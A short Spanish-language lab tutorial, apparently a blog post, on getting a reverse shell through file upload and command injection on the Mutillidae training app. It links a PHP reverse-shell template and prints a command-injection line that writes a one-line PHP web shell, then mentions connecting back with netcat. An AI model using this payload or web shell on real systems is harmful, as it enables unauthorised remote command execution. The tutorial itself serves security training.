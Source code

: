 ```yaml
---
typora-copy-images-to: ../../myassets/img/file_upload/
typora-root-url: ../../
layout: post

---
```


En la siguiente vamos a llevar a cabo un reverse shell mediante la subida de un archivo ejecutable.

Para ello nos vamos a descargar una plantilla de [esta dirección](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y la gurardaremos como shell.php

Lo editamos y cambiamos la dirección IP por la que tenemos en el equipo.

![5](/PePs/myassets/img/file _upload/5.png)



Y la subimos a la página, en este caso lo vamos a subir a Mutillidae usando el siguiente comando:

127.0.0.1;echo "<?php system(\$_GET['c']); ?>" > shell.php



Si realizamos un listado, podemos ver como se ha subido correctamente

![50](/PePs/myassets/img/file _upload/50.PNG)



![51](/PePs/myassets/img/file _upload/51.PNG)



En un terminal ejecutamos el comando netcat para conectarnos a la máquina atacada.

![4](/PePs/myassets/img/file _upload/4.png)